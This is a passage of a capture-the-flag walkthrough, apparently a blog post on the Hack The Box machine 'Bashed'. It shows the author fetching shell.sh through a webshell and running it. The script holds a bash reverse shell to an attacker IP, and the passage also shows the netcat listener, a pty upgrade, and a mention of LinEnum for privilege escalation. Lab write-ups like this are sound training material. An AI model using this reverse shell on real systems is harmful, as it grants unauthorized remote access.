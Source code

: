 I can be able to access anything on the box from this `shell` but I prefera reverse shell

Lets get a foothold on the box and upgrade our shell to a better one using `python`

### reverse shell

I ran into a couple of challenges with this but I found a Workaround.

I will save my rev shell on my box as `shell.sh` then I will download it using the `webshell` and execute it on the box using bash

![Rev shel](/assets/img/bashed/revshell.png)


```sh
┌─[george@parrot]─[~/HTB/boxes/bashed/www]
└──╼ $ sudo python3 -m http.server 80
[sudo] password for george:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.68 - - [29/Sep/2023 21:45:26] "GET /shell.sh HTTP/1.1" 200 -
10.10.10.68 - - [29/Sep/2023 21:46:25] "GET /shell.sh HTTP/1.1" 200 -
ls
10.10.10.68 - - [29/Sep/2023 22:22:09] "GET /shell.sh HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
┌─[george@parrot]─[~/HTB/boxes/bashed/www]
└──╼ $ cat shell.sh
bash -i >& /dev/tcp/10.10.16.7/9001 0>&1
```
Finally I get access to the box.

```sh
┌─[george@parrot]─[~/HTB/boxes/bashed]
└──╼ $ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.68] 33638
bash: cannot set terminal process group (828): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bashed:/dev/shm$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@bashed:/dev/shm$ ^Z         
[1]+  Stopped                 nc -lvnp 9001
┌─[✗]─[george@parrot]─[~/HTB/boxes/bashed]
└──╼ $ stty raw -echo;fg
nc -lvnp 9001

www-data@bashed:/dev/shm$
```
Bingo! after getting on the box, I ran `Linenum.sh` which is a linux privilage escalation scrip
